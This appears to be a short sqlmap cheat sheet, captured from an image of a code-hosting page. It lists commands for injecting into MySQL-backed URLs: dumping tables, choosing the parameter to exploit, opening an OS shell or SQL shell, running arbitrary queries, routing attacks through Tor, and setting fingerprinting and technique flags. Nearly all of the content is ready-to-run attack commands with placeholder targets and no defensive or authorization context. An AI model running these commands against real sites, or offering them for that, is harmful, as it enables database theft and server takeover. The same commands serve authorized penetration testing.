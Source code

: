 Dump table data

```
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump
```

Specify parameter to exploit

```
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&amp;param2=value2" --dbs -p param2
```

Specify parameter to exploit in ‘nice’ URIs

```
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # exploits param1
```

Get OS shell

```
sqlmap --dbms=mysql -u "$URL" --os-shell
```

Get SQL shell

```
sqlmap --dbms=mysql -u "$URL" --sql-shell
```

SQL query

```
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"
```

Use Tor Socks5 proxy

```
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs
```

By default, sqlmap will figure out for itself where the injection point is. If you want to guide it, add a * to the URL like this:

```
sqlmap -u http://example/?id=11-(case when 1=1* then 1)
```

### Key Flag Options

Finger Printing

```
-f --fingerprint Perform an extensive DBMS version fingerprint
```

Technique

```
--technique=TECH    SQL injection techniques to use (default "BEUSTQ")
```
